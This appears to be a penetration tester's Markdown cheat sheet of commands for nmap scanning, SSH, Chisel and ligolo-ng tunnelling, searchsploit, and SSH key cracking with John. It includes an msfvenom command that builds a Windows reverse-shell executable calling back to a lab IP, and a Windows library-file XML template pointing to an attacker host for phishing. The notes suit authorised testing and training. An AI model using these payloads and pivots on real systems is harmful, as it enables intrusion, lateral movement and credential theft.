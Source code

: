 # Tools
___!!MAKE SURE TO HAVE ENOUGH RESOURCES..!!___
## nmap
`sudo nmap -sC -sV -T4 -v -p- -oA 192.168.233.227 192.168.233.227` Full TCP scan with logging \
`sudo nmap -sU -T4 -v -p- 192.168.233.153 -oA nmap/192.168.233.153-UDP` Full UDP SCAN with logging
## curl
`curl`
- `-H "host: test.com"` add header, for testing vhosts\
- `--insecure` ignore certificate issues

## ssh
`ssh`
- `-R 1337:192.168.1.1:3389` Create listening port on the server forwarding to IP:3389\
- `-L 1337:192.168.1.1:3389` Create listening prot lon the local client forwarding to IP:3389

## SWAKS
Swiss Army Knife for SMTP\
- `--to mail@mail.com` Send to address
- `--server` Server to use

## Chisel
`chisel`
- `client` for client mode
- `server` for server mode
Note: issues with starting chisel client when using the pre-compiled version from Kali. Dowloaded release from github does work.\

## ExploitDB
`searchsploit -m XXXXX ` to "mirror" a vulnerability from ExploitDB

## msfvenom
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.186 LPORT=1337 -f exe > rev.exe ` Create windows reverse shell executable

## ligolo-ng
releases for proxy and agent on Github: https://github.com/nicocha30/ligolo-ng

__Start proxy:__\
`sudo ip tuntap add user kali mode tun ligolo`\
`sudo ip link set ligolo up`

`./proxy -selfcert`

__Start ligolo agent:__\
`.\ligolo-agent.exe -connect xxx.xxx.xxx.xxx:11601 -ignore-cert`

__Setup tunnel over proxy:__\
`session` Select session\
`ifconfig` -- Show ip info\
`sudo ip route add 192.168.0.0/24 dev ligolo` Create route\
`start` Start tunnel\

--Network is now reachable through proxy--

## Other usefull resources:
https://crackstation.net/


## WIndows Library file exploit
**NOTE:** After executing windows **optimizes the file** which could make it **unusable** on another machine.
```xml
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.177</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
```

## Cracking SSH keyphrase
`ssh2john sample.key > sample.hash`
`john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
